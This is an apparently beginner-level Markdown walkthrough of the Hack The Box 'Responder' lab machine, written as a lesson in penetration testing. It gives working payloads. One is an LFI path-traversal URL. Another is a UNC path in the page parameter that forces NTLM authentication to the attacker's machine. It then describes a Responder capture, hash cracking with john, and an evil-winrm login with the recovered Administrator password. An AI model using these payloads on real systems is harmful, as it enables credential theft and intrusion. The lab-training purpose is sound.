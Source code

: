 # Basic of penetration testing

***In our journy to learn penetration testing we takes a machines in HTB to can explain the basics of penetration***

## responder machine

- After connecting with vpn you will spawn the machine  and you will have the ip address for this machine .

- As we explained in earlier machines you must know how to download vpn and connect with HTB server and ping for IP_address.
- In the next steps you will pass to the enumaration phase.

### Enumeration

- We will begin as usualy with `nmap` tool to make a quick scan to know if there is any open ports or any vunlerable port .

- We will perform the next command in our terminal `sudo nmap -p- -sC -A -sV {IP_ADDRESS}` .
- this command will search about any tcp open port and you know there is 65535 port and this command will know if there is any open port , be patient this command will take some minutes .

![can't display an image](images/nmap.png)

- As you can see in the nmap report there is two open ports.
  
  - `80/tcp` and the service running is http .
  - `5985/tcp` and the service runnig is also http.

- Now you should noticed that we will deal with website because we found `port 80` and sercice is `http` .
  
- Let's go to our browser and search by IP_address and port number like following .

![can't display an image](images/google.png)

- You will got the failed access message like this .
  
![can't display an image](images/failed_access.png)

- Let's know why we got this message:
  
  - First you should notice that the browser  redirected us to another domain called `unika.htb` .
   ![can't display an image](images/unika_domain.png)
  - This webserver is employing name-based Virtual Hosting for serving the requests .
  - **name-based Virtual Hosting** :  is a method for hosting multiple domain names (with separate handling of each name) on a single server. This allows one server to share its resources, such as memory and processor cycles, without requiring all the services to be used by the same hostname .
  - Let's solve the problem by this command `echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts` , this very easy we just typed the IP_Address for our target and typed thd redirected domain name.
  - I will show you how `hosts file` be in you computer.
  
   ![can't display an image](images/hosts.png)
  
  - As you can see in hosts file you can type any domain name and also type the redirected Ip_address.

- Now when you reload the webpage you should get successful results like this.

 ![can't display an image](images/page.png)

- Now take your time in the website and try to click on every possible switch and try to know what is the response about every single action .
- you can downlad wappalyzer extension to use it when you deal with websites.

 ![can't display an image](images/wappalyzer.png)

- As you can see we find that some useful information about the website and the server like :

  - The used programming languages is `php` .
  - the operating systems is `windows server`.
  - this informations will lead you to think about some services running in php like `include` which used for takes all the text/code/markup that exists in the specified file and loads it into the memory, making it available for use.

- stop here and take a deab breathe , I will give you two URLs to know every thing about `include` method and what is `local file Inclusion` .
  
  - `include` "https://www.php.net/manual/en/functioninclude.php".

  - `LFI`  " https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion " .
  
  - Don't skip those parts unil you understand them well. 

### Exploitation 

- When you click in the translation switch in the website to french or other language you will recognise from the search bar that the website have the `LFI` vulnerability .

 ![can't display an image](images/french1.png)

- I will consider that you just learned any thing about `LFI` vulnerability from the link I just leaved for you.

- Now we know that the website have this vulnerability and As a penetester the most common file you need to go to in a windows server is `WINDOWS\System32\drivers\etc\hosts` this file have the (this file aids in the local translation of host names to IP addresses)
- The `../` string is used to traverse back a directory, one at a time , so when we use it multible times we will back to the root directory .
  
***the real attack begins***

- I will make it easy for you , go to your search browser and type `http://unika.htb/Index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts` and search , you should got message like this :

 ![can't display an image](images/hostfile.png)

- this message mean that the `LFI` vulnerability is available.

- In the next step we will try to make a reverse attack wiche made in sequence like following:

  - we try to send any packets to the server .
  - when the server response we capture the response and try to steal any credentials .
  - and this scenario like smb .
- I think in this option because I know that the operating system running in the server is windows and this why I toold you in the enumeration phase to user wappalyzer .

- we will use tool called "responder" and "evil-winrm".
  
  - type this `git clone https://github.com/lgandx/Responder` in your terminal to download responder .
  - now go to the downloaded folder and type the next command `sudo python3 Responder.py -I tun0` .
  - this command will make session to listen to any response from the website , don't banic I will make you understand when we getin.
  - 

   ![can't display an image](images/py_responder.png)
   ![can't display an image](images/listen.png)
  
  - Now leave this open window and open another terminal .

- now we will make our machine is the server and try to force the website to give us any credentials .
- And we already make our computer server by running responder tool .
- Let's force the website to give us credentials and this will done by doing the next step.

![can't display an image](images/get_challenge.png)

- Go to search bar and type in the `page` parameter `//{your_ip_address}/anything` then click enter.
- and when you open your terminal you will get the `NTLM` response wich this called the challenge.
- here "https://www.youtube.com/watch?v=xAJal6YJhCE&ab_channel=CCNAMCITP" you will learn all you need to know about `NTLM` don't continue untill you learn what is `NTLM`
- In the next step we will try to decrypt the hash.

#### Hash Cracking

- we can copy this hash in a file and hashing it with `john` .

![can't display an image](images/save_hash.png)

- Now we have the hash file , let's decrypt it with john.

![can't display an image](images/john.png)

- Now we have all credentials we need to get in :
  - we have the username `Administrator`
  - we have the password `badminton`

- The second tool to complete the attack calle `evil-winrm` , this tool you will use it more than times this too connect you with the windows servers.
- you can seperatly read about this tool.

- This is How we we will use `evil-winrm` .

![can't display an image](images/evil.png)

- When you successfully get in you can find the flag in the next path `C:\Users\mike\Desktop`

![can't display an image](images/flag.png)

- And here you got the flag , and no need for fetching any tables.

- Congratulations , Assem_Ayman .